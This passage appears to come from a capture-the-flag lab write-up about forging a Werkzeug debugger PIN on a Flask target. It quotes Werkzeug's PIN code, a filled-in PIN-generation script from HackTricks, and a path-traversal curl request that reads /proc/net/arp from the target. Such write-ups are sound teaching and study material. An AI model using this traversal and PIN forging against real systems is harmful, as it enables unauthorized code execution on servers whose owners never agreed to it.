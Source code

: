 

    ...[snip]...
    def get_pin_and_cookie_name(                                                                                                                              
        app: "WSGIApplication",                                                                                                                               
    ) -> t.Union[t.Tuple[str, str], t.Tuple[None, None]]:                        
        """Given an application object this returns a semi-stable 9 digit pin                                                                                 
        code and a random key.  The hope is that this is stable between          
        restarts to not make debugging particularly frustrating.  If the pin     
        was forcefully disabled this returns `None`.                             
                                                                                 
        Second item in the resulting tuple is the cookie name for remembering.   
        """                                                                      
        pin = os.environ.get("WERKZEUG_DEBUG_PIN")                               
        rv = None                                                                
        num = None
    ...[snip]...



It's important to get the version from the target, because there are
some slight differences with what's shown on HackTricks.

I'll grab the script from HackTricks and save it on my machine as
`generate_pin.py`. The top has the variables I need to set:



    import hashlib
    from itertools import chain
    probably_public_bits = [
        'web3_user',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]

    private_bits = [
        '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
        'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
    ]



I've already got all I need for the `probably_public_bits`:

-   `username` is root, as shown in the `supervisoerd.conf` file
-   `modname` and the next one are just `flask.app` and `Flask`
-   The last `probably_public_bits` item is the path from the crash, the
    same one I used just above to get the location of the debug
    `__init__.py`.

To get the MAC address, `/proc/net/arp` will return it:



    oxdf@hacky$ curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//proc/net/arp
    IP address       HW type     Flags       HW address            Mask     Device
    172.17.0.1       0x1         0x2         02:42:90:98:18:9e     *        eth0
